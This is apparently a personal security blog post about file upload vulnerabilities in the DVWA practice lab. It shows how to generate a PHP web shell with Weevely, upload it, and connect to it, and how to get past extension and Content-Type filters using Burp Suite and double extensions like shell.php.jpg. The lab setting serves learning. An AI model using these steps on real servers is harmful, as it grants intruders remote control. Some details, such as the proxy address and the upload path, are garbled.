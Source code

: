 +++
categories = ["File Vulnerability", "Metasploitable"]
date = "2021-02-01"
title = "Vulnerability Upload Files"
type = ["posts","post"]
[ author ]
  name = "nazori"
+++

This is about modifying the requests that we send to the server so we can upload a shell into the server to stablish connection. First we need to generate a shell, we can use Weevely.

Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime. To generate a shell, all we need is to give it a password and the path where it is going to be created.

```  
> weevely

> weevely generate mypassword /root/shell.php
```

Now we can try to upload the shell on any web that let us upload files. If there are no filters and we succesfully upload it we can the connect listen to the file location with the weevely command.

```
> weevely http://10.0.2.4/dvwa/hackable..../uploads/shell.php
```

This will ask for the password we gave to it before and then we would have a shell running on the server.


## Medium security

If they are filtering files by the extension name, we can try and trick the server.

1. Configure Burp Suite, just open it up and set the browser proxy to local host `127.0.0.0`
2. Change the extension of the shell by renaming it to something less suspicious `shell.jpg`
3. Set the Intercept mode ON in the burp proxy tab.
4. Upload the file and change the extension back to `.php` but we leave the Content-Type to image
   
## High security

If the server is also cheking the extension name, just try to, in the interceptor, replace `shell.jpg` for `shell.php.jpg`. This way the filter may not detect that it is a php file and it stills work.